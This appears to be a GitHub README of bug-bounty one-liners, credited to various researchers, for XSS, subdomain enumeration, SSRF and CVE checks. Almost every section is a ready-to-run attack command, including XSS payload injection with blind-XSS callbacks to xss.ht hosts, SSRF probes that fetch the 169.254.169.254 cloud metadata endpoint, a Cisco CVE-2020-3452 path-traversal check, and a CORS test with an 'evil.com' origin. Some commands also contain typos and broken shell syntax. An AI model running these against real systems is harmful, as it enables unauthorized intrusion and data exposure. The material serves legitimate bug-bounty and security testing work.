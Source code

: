 # For loops and one liners for bug bounty 
Credits goes to all those awesome researchers who uploaded these on Twitter and GitHub  

Please Note: Kindly use this only for reference and learning purposes using this doesn't means that you will find Vulnerabilities cause everybody is using this so try to be creative while using it and modify them to get unique results :)

## One Liners for XSS

### Using DALFOX to send the result for xss

```bash
cat target_list| gau | egrep -o "http?.*" | grep "="| egrep -v ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt|js)" | qsreplace -a | dalfox pipe -blind https://yours.xss.ht -o result.txt
```

### XSS without GF Patterns

```bash
waybackurls testphp.vulnweb.com| grep '=' |qsreplace '"><script>alert(1)</script>' | while read host do ; do curl -s --path-as-is --insecure "$host" | grep -qs "<script>alert(1)</script>" && echo "$host \033[0;31m" Vulnerable;done

```

### Using Gospider with Dalfox to find XSS

```bash
gospider -S targets_urls.txt -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'| grep "=" | qsreplace -a | dalfox pipe -o output.txt
```

### Scan subdomains from Bounty Targets data Using DalFox for XSS

```bash
wget https://raw.githubusercontent.com/arkadiyt/bounty-targets-data/master/data/domains.txt -nv ; | subfinder -dL domains.txt | httpx -silent -threads 500 | tee -a subdomains.txt | dalfox file subdomains.txt -b your.xss.ht pipe

```
### Using Kxss for finding xss 

```bash
cat http://subdomains.txt | waybackurls | kxss
```

### Using Gospider with qsreplace

```bash
gospider -S domain.txt -t 3 -c 100 |  tr " " "\n" | grep -v ".js" | grep "https://" | grep "=" | qsreplace '%22><svg/onload=confirm(1);>'
```

************************************************************************************************************************************


## For Finding Subdomains AssetDiscovery  

### For making a huge wordlist of subdomains with Rapid 7 FDNS @m4ll0k

Download the zip file from here https://opendata.rapid7.com/sonar.fdns_v2/
```bash
gzip -dc latestfile-fdns_a.json.gz | jq .name | sed 's/"//g' | xargs -I @bash -c 'tldextract @' | awk '{print $1}' >> mysubs.txt 
```

### One liner to fetch all URLs in scope of all public programs @_ayoubfathi_

```bash
curl -s https://raw.githubusercontent.com/arkadiyt/bounty-targets-data/master/data/hackerone_data.json | jq -r '.[].targets.in_scope[] | select(.asset_type|contains("URL")) | .asset_identifier' |grep -v "*" | sort
```
### Finding Subdomains from crt.sh @vict0ni

```bash
curl -s "https://crt.sh/?q=%25.$1&output=json" | jq -r '.[].name_value' | sed 's/\*\.//g' | sort -u
```

### From Bounty Targets Data @dwisiswant0

For Hackerone
```bash
curl -sL https://github.com/arkadiyt/bounty-targets-data/blob/master/data/hackerone_data.json?raw=true | jq -r '.[].targets.in_scope[] | [.asset_identifier, .asset_type] | @tsv'

```
For Bugcrowd
```bash
curl -sL https://github.com/arkadiyt/bounty-targets-data/raw/master/data/bugcrowd_data.json | jq -r '.[].targets.in_scope[] | [.target, .type] | @tsv'

```
For Intigriti
```bash
curl -sL https://github.com/arkadiyt/bounty-targets-data/raw/master/data/intigriti_data.json | jq -r '.[].targets.in_scope[] | [.endpoint, .type] | @tsv'

```

### For Finding ASN's of a ORG using amass @KingOFBugBounty
```bash
amass intel -org paypal -max-dns-queries 2500 | awk -F, '{print $1}' ORS=',' | sed 's/,$//' | xargs -P3 -I@ -d ',' amass intel -asn @ -max-dns-queries 2500''

```

### While Loop For Subfinder To Discovery new Subdoamins it will run Every 2 hours

```bash
while true; do subfinder -dL domains.txt -all | anew subdomains1.txt | httpx | notify ; sleep 7200; done
```
Note: Before running the above command make sure you do the below first:
Run `subfinder -dL domains.txt -all >> subdomains1.txt`

Install nuclei, subfinder, Notify and anew



### Brute Force List of subdomains using FFuf

```bash
for url in ` cat $filename `; do ffuf -c -w path.txt -u $url/FUZZ -o result.json ; done >> result.txt
```

### For finding Hidden Servers and Admin Panles @rez0

```bash
ffuf -c -u https://target .com -H "Host: FUZZ" -w vhost_wordlist.txt 

```

## One liners for SSRF

### Using waybackurls and gau @R0X4R
After finding subdomains with HTTPX run the Following

```bash
cat subdomains.txt | gauplus --random-agent -b png,jpg,svg,gif -t 100 | anew -q gau_output.txt
cat subdomains.txt | xargs -P 30 -I host bash -c "echo host | waybackurls | anew -q wayback_output.txt"
cat wayback_output.txt gau_output.txt | urldedupe -s | anew -q parameters.txt

Mannual
cat parameters.txt | qsreplace "http://169.254.169.254/latest/meta-data/hostname" | xargs -I host -P 50 bash -c "curl -ks 'host' | grep \"compute.internal\" && echo -e \"[VULNERABLE] - X \n \"" | grep "VULN"


Using OOB
cat parameters.txt | gf ssrf | anew -q ssrf.txt

cat ssrf.txt | qsreplace "interactsh server ID" | anew -q ssrf_test.txt
ffuf -w ssrf_test.txt -u FUZZ -p "0.6-1.2" -H "(header in thread)" -t 200 -s

```
### Using nuclei and Gf for microstrategy SSRF @Virdoex_hunter
```bash
subfdiner -dL domains.txt | httpx | gau | gf ssrf | nuclei -t ~/nuclei-templates/vulnerabilities/other/microstrategy-ssrf.yaml -o result.txt

```
## One Liners for Recon and Visual inspection

### Using Assetfinder with gowitness

```bash
assetfinder -subs-only army.mil | httpx -silent -timeout 50 | xargs -I@ sh -c 'gowitness single @' 
```

### Find Subdomains using Subfinder and opens them on Firefox @payloadartists

```bash
subfinder -d $1 -silent -t 100 | httprobe -c 50 | sort -u | while read line; do firefox $line; sleep 10; done

```


## One Liners for information disclosure

### Using WaybackURL to find Excel File leads to PII Disclosure @M0_SADAT

```bash
gau http://hacked-site.com | waybackurls | grep ".xlsx"

```


## One Liners for CVE and and other Vulnerabilties

### To find CVE 2020-3452 

```bash
while read domains.txt; do curl -s -k "https://$domains/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../" | head | grep -q "Cisco" && echo -e "[${GREEN}VULNERABLE${NC}] $LINE" || echo -e "[${RED}NOT VULNERABLE${NC}] $LINE"; done < domain_list.txt
```

### CORS Missconfiguration @ManasH4rsh

```bash
site="https://example.com"; gau "$site" | while read url;do target=$(curl -s -I -H "Origin: https://evil.com" -X GET $url) | if grep 'https://evil.com'; then [Potentional CORS Found]echo $url;else echo Nothing on "$url";fi;done

```



